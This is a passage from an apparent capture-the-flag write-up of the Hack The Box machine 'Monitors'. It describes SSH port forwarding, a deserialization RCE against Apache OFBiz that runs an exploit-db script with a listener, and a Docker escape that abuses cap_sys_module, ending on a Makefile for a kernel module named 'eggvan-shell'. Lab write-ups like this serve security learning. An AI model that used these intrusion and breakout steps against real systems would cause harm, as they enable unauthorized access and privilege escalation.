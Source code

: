 `ssh -L 8443:localhost:8443 marcus@monitors.htb`
> the -L specifies the local port that you are port forwarding and the third argument is the port that its forwarding too on my host.
{: .prompt-tip }

Now visit the website. Ferox found an many directories but most either errored on visit or has this login page.

![](https://i.imgur.com/8msyVBa.png)

This version of OfBiz is vulnerable to [this](https://www.exploit-db.com/exploits/50178). This script autmoates the usage of the tool ysoserial to deserialize and gain RCE into the docker container. Pretty convenient.

![](https://i.imgur.com/OFxb6K8.png)

To set up and run, make sure this is all done in the same directory. Set up the http server on port 80. Set up the listener to whatever port. Run the bash script specifying your ip and listening port.

We are now in the docker contained webserver. After reading hacktricks, what I've learned is that if a docker container is running on high enough privileges, it can be potentially escaped. That being said, first step is to check them.

>Run 'capsh --print' to view privileges
{: .prompt-tip }

```
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

> Note the "cap_sys_module"
{: .prompt-tip }

With cap_sys_module, it is possible to perform a container breakout. Following this [blog post](https://blog.nody.cc/posts/container-breakouts-part2/), I was able to achieve that by doing the following:

Create a makefile with the following contents:
```
obj-m +=eggvan-shell.o
all:
        make -C /lib/modules/4.15.0-151-generic/build M=/tmp/eggvan modules
clean:
        make -C /lib/modules/4.15.0-151-generic/build M=/tmp/eggvan clean
```
Within lib modules is the kernel build of the machine. This can be found by running "uname -r". The M= is whichever directory you are working with. For me it is eggvan.
